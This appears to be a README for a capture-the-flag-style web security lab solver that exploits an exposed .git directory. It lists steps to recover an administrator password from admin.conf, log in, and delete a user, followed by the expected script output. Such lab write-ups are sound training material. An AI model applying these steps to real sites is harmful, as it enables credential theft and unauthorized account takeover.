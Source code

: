 ## Hack Steps

1. Fetch the .git directory
2. Reset to the previous commit
3. Get the administrator password from the admin.conf file
4. Login as administrator
5. Delete carlos

## Run Script

1. Change the domain of the lab
2. Make sure that **wget** and **git** are installed on your system
3. Start script

```
~$ cargo run
```

## Expected Output

```
⦗1⦘ Fetching .git directory (wait a minute).. OK
⦗2⦘ Changing current working directory.. OK
⦗3⦘ Resetting to the previous commit.. OK
⦗4⦘ Reading admin.conf file.. OK
⦗5⦘ Extracting the administrator password.. OK => rip9q0tdout2mduxi2og
⦗6⦘ Fetching the login page to get a valid session and csrf token.. OK
⦗7⦘ Logging in as administrator.. OK
⦗8⦘ Deleting carlos.. OK
🗹 The lab should be marked now as solved
```
